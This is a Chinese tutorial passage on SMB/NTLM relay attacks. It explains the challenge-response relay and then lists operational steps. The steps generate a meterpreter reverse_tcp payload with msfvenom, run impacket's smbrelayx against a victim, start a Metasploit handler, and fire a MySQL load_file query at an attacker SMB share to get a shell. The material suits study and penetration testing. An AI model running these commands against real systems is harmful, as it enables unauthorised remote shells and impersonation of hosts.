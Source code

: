 **What is SMB relay**

这里简单的描述一下SMB relay这个过程

假设有主机B与A 

(1) A向B发起连接请求 

(2) B向A发送挑战(一组随机数据，8字节) 

(3) A用源自明文口令的DESKEY对挑战进行标准DES加密得到响应，并发往B 

(4) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对前面发往A的挑战进 

行标准DES加密 

(5) 如果(4)中计算结果与A送过来的响应匹配，A被允许访问B 

现在假设一个攻击者C卷入其中 

(1) C向B发起连接请求 

(2) B向C发送挑战D(一组随机数据) 

(3) C等待A向B发起连接请求 

(4) 当A向B发起连接请求时，C伪造成B向A发送挑战D 

(5) A用源自明文口令的DESKEY对挑战D进行标准DES加密得到响应E，并发往B 

(6) C截获到响应E，将它做为针对(2)中挑战D的响应发往B，并声称自己是A 

(7) B从SAM中获取A的LM Hash、NTLM Hash，计算出DESKEY，并对挑战D进行标准DES 

加密 

(8) 如果(7)中计算结果与C送过来的响应匹配，C被允许以A的身份访问B。

**攻击流程**

[![](./img/85936/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016908686e4caa0de8.png)

关于SMB relay攻击窃取NTML与shell请看这篇文章[SMB Relay Demystified and NTLMv2 Pwnage with Python](http://pen-testing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)

整理了一下实际操作的步骤如下: 

1. 首先生成一个反向shell: 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=攻击机监听端口 -f exe &gt; reverse_shell.exe
```

2. 运行[smbrelayx](https://github.com/CoreSecurity/impacket)，指定被攻击者和生成的反向shell，等待连接。 

smbrelayx.py -h 被攻击者ip -e 反向shell文件位置 

3. 使用模块multi/handler。侦听攻击机ip,攻击机监听端口 

4. 在MySQL Server上运行如下的代码，则会产生shell。相当于访问攻击机的smb服务,但实际上是窃取了mysql_server的身份 

```
select load_file('\攻击机ipaa');
```
